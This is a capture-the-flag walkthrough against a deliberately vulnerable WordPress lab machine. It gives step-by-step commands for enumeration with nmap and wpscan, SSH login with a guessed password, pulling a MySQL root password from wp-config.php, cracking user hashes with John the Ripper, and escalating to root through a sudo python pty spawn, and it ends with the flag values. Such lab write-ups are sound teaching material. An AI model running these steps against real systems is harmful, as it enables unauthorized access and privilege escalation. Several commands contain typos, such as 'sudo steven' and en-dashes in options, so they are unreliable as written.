 # **TARGET 1 Offensive WalkThrough**

## Overview

You are working as a Security Engineer for X-CORP, supporting the SOC infrastructure. The SOC analysts have noticed some discrepancies with alerting in the Kibana system and the manager has asked the Security Engineering team to investigate.

To start, your team needs to confirm that newly created alerts are working. Once the alerts are verified to be working, you will monitor live traffic on the wire to detect any abnormalities that aren't reflected in the alerting system.

You will then report back all your findings to both the SOC manager and the Engineering Manager with appropriate analysis.

>##### Note: This is a walkthrough detailing one method to exploit the vulnerable machine. Likewise, other methods have been explored. Read Team: Summary of Operation and the PowerPoint presentation to find more methods not specified in this walkthrough.

---

Tools:

- nmap

- wpscan

- google developers tool

- Q terminal

- Kali Linux

- ssh

- Bash Commands

- Mysql

- John the Ripper

- Python Script

---

## **Walkthrough**

1.` nmap -sV 192.168.1.110`

![1](/Images/2/1.png)

2. Enumerate: 

    `wpscan --url http://192.168.1.110/wordpress -eu`

    Likewise, the usernames are easy to guess because of the leads on the website.

    ![2](/Images/2/wpscan.png)

3. Search with the google developers tool the flag inside the code

4. Go to Services

5. Search: `flag`

![2](/Images/2/2.png)

6. In the terminal: `'ssh michael@192.168.1.110'`

7. Password: `michael` (Method to obtain the password was guessing. It can also be obtained with Hydra)

8. `pwd`

9. `cd ../../`

10. `find  -iname “*flag*” 2>/dev/null`

![3](/Images/2/3.png)

11. `cat /var/www/flag2.txt`

![4](/Images/2/4.png)

12. `cd /var/www/html/wordpress`

13. `Nano wp-config.php`

![5](/Images/2/5.png)

14. `mysql -u root -p`

15. Password: `R@v3nSecurity`

16. `show databases;`

![6](/Images/2/6.png)

17. `use wordpress;`

![7](/Images/2/7.png)

18. `show tables;`

![8](/Images/2/8.png)

19. `SELECT * FROM wp_users;`

![9](/Images/2/9.png)

20. Right click and copy the part with the hashes

21. In another terminal in the attacker machine create a file and paste the hashes

22. Give the appropriate structure for john the ripper use to crack the hashes

23. nano hashes.txt

![10](/Images/2/10.png)

24. `john hashes.txt –wordlist=’/usr/share/wordlist/rockyou.txt’`

25. `john –show hashes.txt`

![11](/Images/2/11.png)

26. `sudo steven`

27. Password: `pink84`

28. `Sudo -l`

![12](/Images/2/12.png)

29. `sudo python -c 'import pty;pty.spawn("/bin/bash")'`

![13](/Images/2/13.png)

30. `find  -iname “*flag*” 2>/dev/null`

![14](/Images/2/14.png)

31. `cat /root/flag4.txt`

![15](/Images/2/15.png)

32. `grep -r flag3 *`

![16](/Images/2/16.png)

33. `nano /var/lib/mysql/ib_logfile0`

34. `Ctrl w`

35. `flag3`

![17](/Images/2/17.png)

# FLAGS

flag1{b9bbcb33e11b80be759c4e844862482d}

flag2{fc3fd58dcdad9ab23faca6e9a36e581c}

flag3{afc01ab56b50591e7dccf93122770cd2}

flag4{715dea6c055b9fe3337544932f2941ce}
